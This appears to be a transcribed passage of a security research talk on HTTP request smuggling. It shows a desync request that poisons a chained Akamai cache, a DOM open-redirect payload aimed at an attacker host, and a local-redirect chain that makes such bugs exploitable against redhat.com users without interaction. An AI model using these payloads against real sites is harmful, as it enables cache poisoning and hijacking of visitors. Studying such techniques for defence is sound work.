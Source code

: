 ### CDN Chaining
now on  newrelic, the backend was an internal  proxy, and on some other systems the  back-end was actually a CDN, which  doesn't make much sense to me, I found  one server that chained Akamai on to  CloudFlare... ¿why? but on a different system they  chained Akamai on to Akamain but the two  Akamai's were configured differently so  I could desynchronize them:
~~~HTTP
POST /cow.jpg HTTP/1.1
Host: redacted.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Transfer-Encoding: chunked

0

GET / HTTP/1.1
Host: www.redhat.com
X: X GET...
~~~
thereby changing the host header I could  serve up content from any website on the  Akamai platform on these guys website,  and the front end Akamai would then  cache that so I could override their  home page with any content from any site  on the Akamai platform. this technique  also works pretty well on SAS providers, where you can simply just change the host name to a different  client of the SAS provider.
### Chaining DOM Problems
now red-hats  website was itself directly vulnerable  to desynchronization and while looking  for a vulnerability to chain with  requests smuggling on there, I found this dom-based open redirect, and  that raised an interesting challenge
```HTTP
GET /assets/idx?redir=//redhat.com@evilt.net/ HTTP/1.1
Host: www.redhat.com
```
~~~Js
<script>
var destination = getQueryParams('redir)
[low quality filtering]
document.location = destination
</script>
~~~
because with requests smuggling, we  controlled the URL that the backend  server thinks the user is on, but we  don't control the URL in the victim's  browser. so, when this get query param  function is executed that's executed in  the victim's browser, so we can't  directly exploit this vulnerability, but  by finding a local redirect on the  target I could effectively chain that  with the Dom based  redirect and gain  control of the URL in their users  browser and exploit this issue. 
```HTTP
GET /en/search?dest=../idx?redir=... HTTP/1.1
Host: www.redhat.com
```
~~~Response
HTTP/1.1 301 Found
Location: /assets//idx?redir=//redhat.com
~~~
and  that's a generic technique that will  work, that will let you combine any Dom  based issue that looks at the URL with  request smuggling to exploit people  without user interaction.
### Redirects with teeth
